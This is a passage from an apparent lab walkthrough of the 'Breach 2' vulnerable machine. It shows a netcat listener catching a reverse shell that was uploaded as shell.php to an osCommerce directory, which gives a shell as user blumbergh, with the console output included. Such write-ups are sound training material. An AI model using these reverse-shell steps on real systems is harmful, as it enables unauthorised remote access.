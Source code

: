 ![](/assets/images/breach2/screenshot-13.png)

As we see our reverse shell was uploaded as the user blumbrgh.

![](/assets/images/breach2/screenshot-14.png)

Then, we start a netcat listener and run the reverse shell, now we are the user blumbergh.


`http://192.168.110.151:8888/oscommerce/includes/work/shell.php`

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.110.150] from (UNKNOWN) [192.168.110.151] 51353
Linux breach2 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2 (2016-04-08) x86_64 GNU/Linux
 17:03:54 up  3:07,  1 user,  load average: 0.03, 0.15, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
milton   pts/1    localhost        14:14   23:35   2.76s  2.61s -bash
uid=1001(blumbergh) gid=1001(blumbergh) groups=1001(blumbergh),1004(fin)
/bin/sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (499): Inappropriate ioctl for device
bash: no job control in this shell
blumbergh@breach2:/$ 
```
